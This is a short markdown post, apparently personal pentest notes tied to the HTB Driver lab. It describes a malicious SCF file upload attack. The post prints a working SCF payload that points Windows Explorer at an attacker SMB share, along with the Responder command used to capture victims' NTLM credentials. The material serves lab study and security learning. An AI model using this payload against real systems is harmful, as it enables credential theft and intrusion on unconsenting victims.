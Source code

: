 ```yaml
---
layout: post
title: Malicious SCF File Upload
description:  Malicious SCF File Upload
summary:  Malicious SCF File Upload
tags: [windows,rce,foothold,smb]
minute: 1
---
```

## Overview
Attacker can upload a maliciuous SCF file that will connect to attacker SMB share once victim accessed it.

One example to access SCF file is via `explorer.exe`.

```
%SystemRoot%\explorer.exe "C:\Users\victim\desktop"
```

## Environment Setup
* Webapp that allows file upload
* Some background script inside victim that access the uploaded files

## Steps
* Open responder on attacker machine

```bash
sudo responder -I tun0
```

* Create a malicious SCF file and name it as `@evil.scf`. Put the path to attacker share.

```
[Shell]
Command=2
IconFile=\\10.10.14.13\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

* Upload the file and wait for someone to access
* You should be able to intercept NTLM creds

## Reference
* HTB Driver
* [SMB Share – SCF File Attacks – Penetration Testing Lab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
